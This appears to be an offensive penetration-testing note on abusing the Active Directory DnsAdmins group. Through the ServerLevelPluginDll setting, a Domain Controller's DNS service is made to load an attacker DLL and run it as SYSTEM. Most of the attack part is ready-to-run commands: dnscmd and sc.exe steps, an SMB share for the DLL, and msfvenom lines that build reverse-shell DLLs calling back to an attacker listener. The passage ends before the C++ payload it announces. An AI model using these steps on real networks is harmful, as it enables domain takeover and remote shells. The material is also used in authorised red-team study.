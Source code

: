 The members of the `DnsAdmins` `domain local` group (variable `SID`) can
manage the `DNS` services, usually hosted by the Domain Controllers, and the
`Active Directory-Integrated DNS Zones (ADIDNS)`. This group exists only if the
`DNS` server role is or was once installed on a Domain Controller in the domain
(which is the case by default). The domain `DnsAdmins` group, and its members,
are **not** protected by the `AdminSDHolder` mechanism.

Membership to the domain `DnsAdmins` group can notably be leveraged to
configure the `DNS` service of a Domain Controller to load and execute an
arbitrary `Dynamic Link Library (DLL)` through a `ServerLevelPluginDll`
operation. As the `DNS` service (executing the `C:\Windows\system32\dns.exe`
binary) is running as the local system account, this operation allows for the
remote execution of code as `NT AUTHORITY\SYSTEM` on a Domain Controller.

The `dnscmd` Windows built-in utility can be used to conduct a
`ServerLevelPluginDll` operation to load an arbitrary `DLL`. The specified
`DLL` may be hosted on a remote network share, which can be done using
`impacket`'s `smbserver.py` or directly through the Windows `File Explore`
utility. Refer to the `[General] File Transfer` note for more information on
those two techniques.

```
# smbserver.py [-smb2support] <SHARE_NAME> <SHARE_PATH>

# Instructs the dns.exe service of the remote Domain Controller to load and execute the specified DLL upon starting
dnscmd <DC_IP | DC_HOSTNAME> /config /serverlevelplugindll \\<SHARE_SERVER_IP>\<SHARE>\<DLL.dll>

# If code execution was achieved by others means on the Domain Controller, the modification of the DNS service configuration can be validated
reg query HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ /v ServerLevelPluginDll
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

# Stops and starts the dns.exe service on the remote Domain Controller
sc.exe \\<DC_IP | DC_HOSTNAME> stop dns
sc.exe \\<DC_IP | DC_HOSTNAME> start dns
```

A `DLL`, functional for the exploit **but that will hang the `DNS` service
restart**, can be generated using `msfvenom`:

```
# Example payloads: staged (windows/shell/reverse_tcp) or stageless (windows/shell_reverse_tcp) reverse shell.
# For more information on the listeners and payloads supported by the msfvenom utility refer to "[General] Shells" note.

msfvenom -a <x86 | x64> --platform windows -p <windows/shell/reverse_tcp | windows/x64/shell/reverse_tcp> LHOST=<LISTENING_IP> LPORT=<LISTENING_PORT> -f dll -o <OUTPUT_DLL>
msfvenom -a <x86 | x64> --platform windows -p <windows/shell_reverse_tcp | windows/x64/shell_reverse_tcp> LHOST=<LISTENING_IP> LPORT=<LISTENING_PORT> -f dll -o <OUTPUT_DLL>
```

In order to make the restart of the `DNS` service possible, the injected `DLL`
must export a number of functions and start the payload in a thread. The
`DNSAdmin-DLL.cpp` file (which export the `DNS_PLUGIN_API` functions) of the
`DNSAdmin DLL` project can be replaced with the following `C++` code below,
which includes a reverse shell payload. The `C++` reverse shell code is
based on `tudorthe1ntruder`'s `reverse-shell-poc` and the modifications are
inspired from the following `IppSec` walkthrough:
`https://youtu.be/8KJebvmd1Fk?t=3290`.
